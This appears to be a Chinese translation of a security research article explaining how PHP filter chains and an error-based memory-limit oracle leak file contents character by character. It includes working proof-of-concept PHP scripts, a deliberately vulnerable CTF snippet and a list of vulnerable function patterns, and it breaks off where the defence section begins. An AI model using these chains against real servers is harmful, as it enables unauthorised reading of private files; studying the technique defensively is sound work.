





PHP Filter链——基于oracle的文件读取攻击

- - -

# PHP Filter链——基于oracle的文件读取攻击

> 本文介绍了如何在使用PHP中的包装器filter实现任意文件读取攻击全过程，涉及的主要技术有：
> 
> -   任意文件读取
> -   filter新式攻击
> -   filter编码技巧
> -   自动化漏洞利用
> 
> 翻译来源：
> 
> [https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)

## 零、本文介绍

> Filter链所造成的危害的潜力从不会让攻击方感到意外，在PHP文件包含函数中使用filter chain会导致远程代码执行，本文发现PHP Filter链还会导致文件读取漏洞，造成这个漏洞的原因是基于错误的oracle。

这种攻击方法第一次出现在202年的DownUnderCTF中， `@hash_kitten` 发起了一个challenge，要求解题者使用基于 `Dockerfile` 和代码片段的基础环境找到 `/flag` 文件。

```plain
FROM php:8.1-apache

RUN mv "$PHP_INI_DIR/php.ini-production" "$PHP_INI_DIR/php.ini"

COPY index.php /var/www/html/index.php
COPY flag /flag
```

`index.php` 文件包含的内容如下。

```plain
<?php file($_POST[0]);
```

PHP函数`file`读取一个文件，但不输出其内容，这意味着Apache服务器的响应中不会显示任何内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029230848-102b380e-766d-1.png)

直到CTF结束，也没有人解决完成这个挑战，在WriteUp发布之后，Hash\_kitten解释了文件可能通过基于错误的oracle方式泄露。

这篇文章详细介绍了这次攻击中涉及的几个filter链技巧，以及原有攻击方式的优化，还将讨论常见的模式和限制，因为PHP中受影响的函数数量比最初预期的要多。最后，开发了一个工具来自动化漏洞利用过程，其功能将在本文末尾详细介绍。

## 一、基于错误的oracle文件读取

`php://filter` 能够实现特别多样的操作，允许任意操作本地文件内容。

攻击的策略如下：

1.使用`iconv`filer，其编码以指数方式增加数据大小，从而可以触发内存错误。

2.使用 `dechunk` filter来确定文件的第一个字符。

3.对于具有不同字节顺序的编码，再次使用 `iconv` filter，将剩余字符与第一个字符交换。

## 二、溢出最大文件大小

`iconv` 函数允许自定义字符串的编码，也可以由 `php://filter` 调用，因为有些编码能够产生复制字节的效果，如`UNICODE`和`UCS-4`编码，但需要在两个和四个字节定义字符。

```plain
$ php -r '$string = "START"; echo strlen($string)."\n";
5
$ php -r '$string = "START"; echo strlen(iconv("UTF8", "UNICODE", $string))."\n";'
12
$ php -r '$string = "START"; echo strlen(iconv("UTF8", "UCS-4", $string))."\n";'
20
```

字符串 `START` 的长度为5字节，如果以 `UNICODE` 编码，则乘以2，再加上自定义BOM的2个字节。本文使用的编码技巧是 `UCS-4` 编码的，因为它使用4个字节。

```plain
UCS-4 stands for "Universal Character Set coded in 4 octets." It is now treated sim-
ply as a synonym for UTF-32, and is considered the canonical form for representation of
characters in 10646.
```

这些编码可以多次使用，下面的输出显示了字符串 `START` 在两次调用 `UCS-4LE` 后是如何被修改的。

需要注意的是，使用 `UCS-4LE` 而不是 `UCS-4` 来保持前导字符（ leading character）在chain的开头，然后字符会被oracle泄露。

```plain
$ php -r '$string = "START"; echo iconv("UTF8", "UCS-4LE", $string);' | xxd
00000000: 5300 0000 5400 0000 4100 0000 5200 0000  S...T...A...R...
00000010: 5400 0000                                T...
$ php -r '$string = "START"; echo iconv("UTF8", "UCS-4LE",iconv("UTF8", "UCS-4LE", $string));' | xxd
00000000: 5300 0000 0000 0000 0000 0000 0000 0000  S...............
00000010: 5400 0000 0000 0000 0000 0000 0000 0000  T...............
00000020: 4100 0000 0000 0000 0000 0000 0000 0000  A...............
00000030: 5200 0000 0000 0000 0000 0000 0000 0000  R...............
00000040: 5400 0000 0000 0000 0000 0000 0000 0000  T...............
```

在PHP中，`php.ini`的 `memory_limit` 参数代表了资源限制，根据文档，它的默认值是128MB，如果试图读取大于此大小的文件，那么会触发错误。

```plain
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate XXXXXXXXXX bytes)
```

下面的脚本对字符串`START`使用了13次`UCS-4LE` 编码。

```plain
<?php

$string = "START";

for ($i = 1; $i <= 13; $i++) {
    $string = iconv("UTF8", "UCS-4LE", $string);
}
```

然后就可以看到有足够的大小1导致溢出了。

```plain
$ php iconv.php 

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 83886144 bytes) in /tmp/iconv.php on line 6
```

使用多次UCS-4编码START后的图：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029230901-17af7374-766d-1.png)

## 三、泄漏文件的第一个字符

根据PHP文档描述，`php://filter`中的dechunk方法可以实现分块传输编码，传输的第一个表示数据块的长度，后面是传输的数据：

[https://github.com/php/php-src/blob/PHP-8.1.16/ext/standard/filters.c#L1724](https://github.com/php/php-src/blob/PHP-8.1.16/ext/standard/filters.c#L1724)

[https://en.wikipedia.org/wiki/Chunked\_transfer\_encoding#Encoded\_data](https://en.wikipedia.org/wiki/Chunked_transfer_encoding#Encoded_data)

```plain
5\r\n      (chunk length)
Chunk\r\n  (chunk data)
f\r\n                (chunk length)
PHPfiltersrock!\r\n  (chunk data)
```

下面的例子阐述了这个方法：

```plain
$ echo "START" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
START
$ echo "0TART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "ATART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "aTART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");' 
$ echo "GTART" > /tmp/test
$ php -r 'echo file_get_contents("php://filter/dechunk/resource=/tmp/test");'
GTART
```

当第一个字符是十六进制中的（ `[0-9]` 、 `[a-f]` 、 `[A-F]` ）时，文件内容在使用 `dechunk` filter时会被丢弃，这是因为十六进制长度后面没有CRLF，将会导致解析失败。

因此，如果第一个字符是十六进制值，输出将为空，整个链发生改变，会触发 `memory_limit` 错误，将两种方法结合起来使用就是：

```plain
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$filter = "php://filter/dechunk|$size_bomb/resource=/tmp/test";

echo file_get_contents($filter);
```

```plain
$ echo 'GSTART' > /tmp/test
$ php oracle.php 
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 117440512 bytes) in /tmp/oracle.php on line 10

$ echo 'aSTART' > /tmp/test
$ php oracle.php
```

## 四、检索前向字符的值

现在已经可以确定前向字符什么时候是十六进制，然后需要一种确定性的方法来转换范围内的任何字符，并且要减少来自oracle的爆破的可能值的数量，可以使用 `convert.base64-encode` filter。

### 检索\[a-e\]的字符

下面开始确定字符是在 `[a-e]` 还是 `[A-E]` 内的链开始，首先是片假名主机（Katakana Host）：扩展的SBCS编解码器（extended SBCS codec），它是 `CP930` 或X-IBM930的别名。

[https://www.fileformat.info/info/charset/x-IBM930/encode.htm](https://www.fileformat.info/info/charset/x-IBM930/encode.htm)

ASCII编解码器表

|     | x0  | x1  | x2  | x3  | x4  | x5  | x6  | x7  | x8  | \[...\] | xf  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 6x  | \`  | **a** | **b** | **c** | **d** | **e** | **f** | g   | h   | \[...\] | o   |
| \[...\] |     |     |     |     |     |     |     |     |     |     |

X-IBM-930编解码器表

| x0  | x1  | x2  | x3  | x4  | x5  | x6  | x7  | x8  | \[...\] | xf  |     |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 6x  | \-  | /   | **a** | **b** | **c** | **d** | **e** | **f** | g   | \[...\] | ?   |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| cx  | {   | **A** | **B** | **C** | **D** | **E** | **F** | G   | H   | \[...\] |     |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| fx  | **0** | **1** | **2** | **3** | **4** | **5** | **6** | **7** | **8** | \[...\] | Ÿ   |

在 `X-IBM-930` 中，从 `a` 到 `f` 的字符移动了1，大写字母和数字也设置在不同于ASCII表的索引上，例如 `cX` 和 `fX` ，因为可以防止与其他base64编码值的冲突。

下面看看这种编码的作用：

```plain
<?php
$guess_char = "";

for ($i=1; $i <= 7; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char/resource=/tmp/test";
    echo "IBM-930 conversions : ".$i;
    echo ", First char value : ".file_get_contents($filter)[0]."\n";
}
```

```plain
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, First char value : b
IBM-930 conversions : 2, First char value : c
IBM-930 conversions : 3, First char value : d
IBM-930 conversions : 4, First char value : e
IBM-930 conversions : 5, First char value : f
IBM-930 conversions : 6, First char value : g
IBM-930 conversions : 7, First char value : h
```

`$remove_junk_chars` 子链用于从链中删除不可打印的字符， `$guess_char` 用于X-IBM-930编解码器。最后，循环打印转换后的文件内容的第一个字符。如图，编解码器得到了正确使用效果：每次进行转换时，字符都会移动一个。

现在看看基于发生错误的oracle会产生什么：

```plain
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."edcba"[$i-1]."\n";
}
```

```plain
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is e
IBM-930 conversions : 2, the first character is d
IBM-930 conversions : 3, the first character is c
IBM-930 conversions : 4, the first character is b
IBM-930 conversions : 5, the first character is a
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 115036160 bytes) in /tmp/oracle.php on line 16

$ echo 'cSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is e
IBM-930 conversions : 2, the first character is d
IBM-930 conversions : 3, the first character is c
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 68288512 bytes) in /tmp/oracle.php on line 16

$ echo 'GSTART' > /tmp/test
$ php oracle.php 
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 75497472 bytes) in /tmp/oracle.php on line 16
```

可以发现，通过利用oracle，可以精确地确定链的第一个字符是 `a` 、 `b` 、 `c` 、 `d` 还是 `e` 。

通过使用更多的filter可以让`$guess_char`产生更多的可能性，比如可以通过添加 `string.rot13` 过滤器以相同的方式泄漏：字符 `n` 、 `o` 、 `p` 、 `q` 和 `r`。

```plain
<?php

$string = "START";
$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars|";
    $rot13filter = "string.rot13|";
    $filter = "php://filter/$rot13filter$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."rqpon"[$i-1]."\n";
}
```

```plain
$ echo 'nSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is r
IBM-930 conversions : 2, the first character is q
IBM-930 conversions : 3, the first character is p
IBM-930 conversions : 4, the first character is o
IBM-930 conversions : 5, the first character is n
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 115036160 bytes) in /tmp/oracle.php on line 17

$ echo 'rSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is r
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 81788928 bytes) in /tmp/oracle.php on line 17

$ echo 'GSTART' > /tmp/test
$ php oracle.php 
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 75497472 bytes) in /tmp/oracle.php on line 17
```

这个方法可以识别绝大多数的字符。

### 检索\[0-9\]的字符

用于识别数字的技巧非常巧妙：只需对字符串进行第二次base64编码，并重新使用前一个泄露的字母，查找数字时，可以发现其base64编码值的第一个字符将始终是 `M` 、 `N` 或 `O` 。

```plain
$ echo -n '0' | base64 
MA==
$ echo -n '1' | base64 
MQ==
$ echo -n '2' | base64 
Mg==
$ echo -n '3' | base64 
Mw==
$ echo -n '4' | base64 
NA==
[...]
$ echo -n '9' | base64 
OQ==
```

字符 `0` 到 `3` 将产生前导 `M` ， `4` 到 `7` 产生前导 `N` ， `8` 到 `9` 产生前导 `O` ，每个base64字符可以表示为6位的二进制值，而每个ASCII字符都表示为8位的二进制值，以下模式显示了 `0a` 如何表示使用ASCII和base64表示。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029230919-221e8d72-766d-1.png)

只需要确定前两个字符来检索相应的数字，已经知道如何确定第一个字符，并将在下面中看到如何读取后续字符。

第一个字符将始终是 `M` 、 `N` 或 `O` ，第二个字符将取决于数字后面的字符。对于给定的数字，只有后面字符的前四个字节将决定第二个base64字符。此外，由于数字后面的字符已经是base64编码字符串的一部分，因此只有下面六种可能性：

| 字符  | 二进制值 |
| --- | --- |
| +   | 0**010**1011 |
| /   | 0**010**1111 |
| 0   | 0**011**0000 |
| 9   | 0**011**1001 |
| A   | 0**100**0001 |
| Z   | 0**101**1010 |
| a   | 0**110**0001 |
| z   | 0**111**1010 |

在某些情况下，base64编码产生的第二个字符“3”和“7”可以加数字。但是由于他们没有相同的前向字符，所以可以区分他们，下表总结了可能的组合：

| **字符** | **base64编码的第一个字符** | **base64编码的第二个字符** |
| --- | --- | --- |
| 0   | M   | C, D, E, F, G or H |
| 1   | M   | S, T, U, V, W or X |
| 2   | M   | i, j, k, l, m or n |
| **3** | **M** | y, z **or a number** |
| 4   | N   | C, D, E, F, G or H |
| 5   | N   | S, T, U, V, W or X |
| 6   | N   | i, j, k, l, m or n |
| **7** | **N** | y, z **or a number** |
| 8   | O   | C, D, E, F, G or H |
| 9   | O   | S, T, U, V, W or X |

### 检索更多字符

需要通过使用额外的编码，以同样的方式检索其他字符。 `Z` 字符（在ASCII表中表示为 `0x5A` ）在IBM285编解码器中被编码为 `!` ，IBM285编解码表如下：

|     | x0  | x1  | x2  | \[...\] | x9  | xa  | xb  | xc  | xd  | xe  | xf  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 5x  | '   | é   | ê   |     | ß   | **!** | £   | \*  | )   | ;   | ¬   |
| \[...\] |     |     |     |     |     |     |     |     |     |     |

当 `!` 字符从IBM285编码到IBM280编码，它的十六进制值变成 `0x4F` ，IBM280编解码表：

|     | x0  | x1  | x2  | \[...\] | x9  | xa  | xb  | xc  | xd  | xe  | xf  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 4x  |     |     | â   |     | ñ   | $   | .   | <   | (   | +   | **!** |
| \[...\] |     |     |     |     |     |     |     |     |     |     |

值 `0x4F` 会与ASCII表中的字符 `O` 匹配，通过使用ROT12，再变成`B`，`dechunk`filter可以用来触发oracle，ASCII码表：

| x0  | x1  | x2  | \[...\] | x9  | xa  | xb  | xc  | xd  | xe  | xf  |     |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 4x  | @   | A   | **B** | \[...\] | I   | J   | K   | L   | M   | N   | **O** |
| \[...\] |     |     |     |     |     |     |     |     |     |     |

如此下来，就可以确定泄露的字符为`Z`。

## 五、检索非前向字符的值

现在已经能够精确地确定字符串的第一个字符，下面看看如何将攻击扩展到字符串中任何位置的字符。

### 交换字符方式

通过乘2或乘4使用内存字节顺序来反转字节，如下所示，其中前4个字节可以作为字符串的前导字符。

```plain
$ echo -n abcdefgh > /tmp/test
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UTF16.UTF-16BE/resource=/tmp/test")."\n";'
badcfehg
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UCS-4.UCS-4LE/resource=/tmp/test")."\n";'
dcbahgfe
$ php -r 'echo file_get_contents("php://filter/convert.iconv.UCS-4.UCS-4LE|convert.iconv.UTF16.UTF-16BE/resource=/tmp/test")."\n";'
cdabghef
```

现在如何检索更大范围的字符呢？这一部分是对原方法的优化，方法是生成两个字节的数据，然后使用 `UCS-4LE` 编码使其旋转，最后删除之前添加的数据，如下使用多种编码检索字符串第5个字符的过程：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231029230951-3550c18a-766d-1.png)

现在就可以联合已经发现的方法来访问文件中的任何字符了。

### 无关的多字节序列

如果您使用过`UCS-4` 编码，会知道 `UCS-4` 只能编码大小是4的精确倍数的字符串，但由于文件的大小也计算好了，所以oracle还是会触发，尽管系统会产生编码警告，下面的例子阐述了这个原理：

```plain
<?php

$size_bomb = "";
for ($i = 1; $i <= 20; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $swap_bits = "convert.iconv.UTF16.UTF16|convert.iconv.UCS-4LE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UCS-4LE.UCS-4|";
    $filter = "php://filter/$swap_bits$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the fifth character is "."edcba"[$i-1]."\n";
}
```

```plain
$ echo '1234a67' > /tmp/test
$ php oracle.php 
Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 1, the fifth character is e

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 2, the fifth character is d

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 3, the fifth character is c

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 4, the fifth character is b

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 5, the fifth character is a

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 110796800 bytes) in /tmp/oracle.php on line 16

$ echo '1234d67' > /tmp/test
$ php oracle.php 
Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 1, the fifth character is e

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 2, the fifth character is d

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 101711872 bytes) in /tmp/oracle.php on line 16
```

当 `iconv` 引发无效多字节序列的 `UCS-4LE` 编码警告时，过滤器filter仍在工作，并使字符串大小呈指数级，从而触发内存大小耗尽错误发生。

在研究过程中，有些框架将这种警告视为错误发生，所以在这种情况下，需要将字符串大小更正为4的倍数（对于UCS-4编码）。

## 六、被影响的函数

现在攻击已经完成了，让看看它可以用在哪些地方。根据文档[https://www.php.net/manual/en/wrappers.php.php#refsect1-wrappers.php-options，\`php://filter\`可以使用在\`php://\`能使用的地方，具体看下表：](https://www.php.net/manual/en/wrappers.php.php#refsect1-wrappers.php-options%EF%BC%8C%60php://filter%60%E5%8F%AF%E4%BB%A5%E4%BD%BF%E7%94%A8%E5%9C%A8%60php://%60%E8%83%BD%E4%BD%BF%E7%94%A8%E7%9A%84%E5%9C%B0%E6%96%B9%EF%BC%8C%E5%85%B7%E4%BD%93%E7%9C%8B%E4%B8%8B%E8%A1%A8%EF%BC%9A)

| 属性  | 可支持的 |
| --- | --- |
| Restricted by [allow\_url\_fopen](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen) | No  |
| Restricted by [allow\_url\_include](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include) | `php://input`, `php://stdin`, `php://memory` and `php://temp` only. |
| Allows Reading | `php://stdin`, `php://input`, `php://fd`, `php://memory` and `php://temp` only. |
| Allows Writing | `php://stdout`, `php://stderr`, `php://output`, `php://fd`, `php://memory` and `php://temp` only. |
| Allows Appending | `php://stdout`, `php://stderr`, `php://output`, `php://fd`, `php://memory` and `php://temp` only. (Equivalent to writing) |
| Allows Simultaneous Reading and Writing | `php://fd`, `php://memory` and `php://temp` only. |
| Supports [stat()](https://www.php.net/manual/en/function.stat.php) | No. However, `php://memory` and `php://temp` support [fstat()](https://www.php.net/manual/en/function.fstat.php). |
| Supports [unlink()](https://www.php.net/manual/en/function.unlink.php) | No  |
| Supports [rename()](https://www.php.net/manual/en/function.rename.php) | No  |
| Supports [mkdir()](https://www.php.net/manual/en/function.mkdir.php) | No  |
| Supports [rmdir()](https://www.php.net/manual/en/function.rmdir.php) | No  |
| Supports [stream\_select()](https://www.php.net/manual/en/function.stream-select.php) | `php://stdin`, `php://stdout`, `php://stderr`, `php://fd` and `php://temp` only. |

根据此表，基本上意味着只要对文件执行操作，包括读取、写入或向文件追加内容，或者使用了链接到该文件的流，那么如果可以控制传递给这些函数的参数，就可能使用过滤器链filter chain并使用基于错误的oracle漏洞攻击。

## 七、比经典的filter链且广泛的攻击

这个技巧可能比经典的PHP filter链具有更大的适用范围，虽然它不会导致远程代码执行，但实际上默认的PHP文件系统列表中，有83个函数中有15个被证明受到了影响。[https://www.php.net/manual/en/ref.filesystem.php](https://www.php.net/manual/en/ref.filesystem.php)

下面是受影响的PHP函数的部分列表。

| **Function** | **Pattern** |
| --- | --- |
| ***file\_get\_contents*** | `file_get_contents($_POST[0]);` |
| ***readfile*** | `readfile($_POST[0]);` |
| ***finfo->file*** | `$file = new finfo(); $fileinfo = $file->file($_POST[0], FILEINFO_MIME);` |
| ***getimagesize*** | `getimagesize($_POST[0]);` |
| ***md5\_file*** | `md5_file($_POST[0]);` |
| ***sha1\_file*** | `sha1_file($_POST[0]);` |
| ***hash\_file*** | `hash_file('md5', $_POST[0]);` |
| ***file*** | `file($_POST[0]);` |
| ***parse\_ini\_file*** | `parse_ini_file($_POST[0]);` |
| ***copy*** | `copy($_POST[0], '/tmp/test');` |
| ***file\_put\_contents (only target read only with this)*** | `file_put_contents($_POST[0], "");` |
| ***stream\_get\_contents*** | `$file = fopen($_POST[0], "r"); stream_get_contents($file);` |
| ***fgets*** | `$file = fopen($_POST[0], "r"); fgets($file);` |
| ***fread*** | `$file = fopen($_POST[0], "r"); fread($file, 10000);` |
| ***fgetc*** | `$file = fopen($_POST[0], "r"); fgetc($file);` |
| ***fgetcsv*** | `$file = fopen($_POST[0], "r"); fgetcsv($file, 1000, ",");` |
| ***fpassthru*** | `$file = fopen($_POST[0], "r"); fpassthru($file);` |
| ***fputs*** | `$file = fopen($_POST[0], "rw"); fputs($file, 0);` |

除此之外，其他模块中的其他功能也可能受到影响。例如，exif模块中的 `exif_imagetype` 函数也可以这样利用，核心是只要对文件内容执行了任何操作，那么该函数就可能受到 `php://filter` 包装器的影响。

## 八、防御方法

尽管这个问题乍一看很可怕，但因为有几个限制会使其利用变得不那么常见。

### 文件存在控制可能性

